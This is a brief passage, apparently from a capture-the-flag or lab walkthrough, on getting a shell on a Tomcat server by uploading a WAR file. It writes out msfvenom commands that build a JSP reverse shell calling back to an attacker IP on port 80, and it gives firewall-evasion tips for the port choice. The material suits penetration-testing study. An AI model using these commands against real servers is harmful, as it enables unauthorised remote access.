




war upload
One crucial thing to remember about t0mcat webservers is that they typically execute .war files and luckily, msfvenom is capable of generating a reverse shell written in .war easily for us, for reference check out this link
another way to find the correct payload is to grep for msfvenom's reverse shell payloads
msfvenom -l payloads | grep reverse
where -l is list



msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.62 LPORT=80 -f war > shell.war
where
LHOST to our attacking machine's local host IP
LPORT to the local port we want to have netcat listen on, we choose port 80 here because it's most likely to make it through a firewall (53 is also a good choice)
-p is for payload java/jsp_shell_reverse_tcp to send the reverse shell back
-f is for filetype .war because Tomcat servers run war files

